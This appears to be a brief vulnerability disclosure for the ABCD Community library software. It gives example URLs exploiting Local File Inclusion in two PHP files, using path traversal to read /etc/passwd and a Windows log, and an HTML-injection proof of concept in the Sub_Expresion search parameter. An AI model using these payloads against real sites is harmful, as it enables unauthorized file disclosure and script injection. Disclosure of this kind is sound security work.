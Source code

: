 # Local File Inclusion in **ABCD Community**
## Vulnerable software: https://abcd-community.org/

There are two **Local File Inclusion** vulnerabilities in ABCD software:  
<br>
**show_image.php**   
**otros_sitios.php**

Examples:<br>
www[.]XXXXX[.]com[.]br/common/show_image.php?image=../../../../../../../etc/passwd&base=arquivo
<br>
www[.]XXXXX[.]com[.]br/abcd/opac/php/otros_sitios.php?sitio=C:/Windows/debug/NetSetup.log&submenu=N
<br>
<br>
<br>
A **XSS vulnerability** was found in the **Sub_Expresion** parameter on buscar_integrada.php file:
<br>
<br>
<br>
www[.]XXXXX[.]com[.]br/buscar_integrada.php?alcance=&IR_A=&campo=Se%EF%BF%BD%EF%BF%BDo&LastKey=fdsfadsa&base=arquivo&Diccio=4-1&**Sub_Expresion**=%22fda%3Cinput%3E%3Cinput%3Esfdafds%22&Sub_Expresiones=&Navegacion=&Expresion=&Campos=TW_+~~~+REF_+~~~+DAL_+~~~+FUL_+~~~+SEC_+~~~+SPL_+~~~+GDL_&Operadores=and+~~~+and+~~~+and+~~~+and+~~~+and+~~~+and&modo=1B&llamado_desde=avanzada.php&lang=pt&resaltar=S&prefijo=SEC_&Opcion=buscar_diccionario&Seleccionados=%22fdsaf%22
